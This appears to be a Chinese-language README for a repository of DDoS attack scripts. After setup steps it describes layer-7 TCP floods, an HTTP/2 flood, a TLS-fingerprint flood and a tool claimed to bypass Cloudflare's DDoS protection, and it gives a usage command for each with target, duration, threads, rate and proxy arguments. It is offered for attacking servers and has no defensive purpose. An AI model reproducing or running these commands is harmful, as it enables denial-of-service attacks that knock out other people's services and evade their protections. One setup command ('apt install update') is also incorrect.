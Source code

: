 # CC-scripts-and-environments
环境准备：

安装操作系统 Ubuntu 22
apt install update - 更新源
apt install curl - 安装curl
chmod 777 * - 给当前目录脚本可执行权限
sh install.sh - 运行安装脚本环境的shell文件

ATTACK脚本介绍和执行命令：
L7 TCP - TCP
通过大量的L7层TCP连接消耗服务器带宽资源

执行命令：
./tcp 目标 时间 代理

HTTPS
原始洪水，HTTP/2.0协议 测试下来洪水量最高的脚本

执行命令：
node tornadov2.js GET/POST 目标 时间 线程 速率 代理 --http 2 --legit

TLS指纹洪水 - TLS
能够绕过一些普防，绕过率和洪水量兼备

执行命令：
node tls.js 目标 时间 速率 线程 代理

cf-yujian
100%绕过 CF-HTTPDDOS HTTP/1.1协议绕过

执行命令：
./fox GET 目标 代理 时间 线程 速率
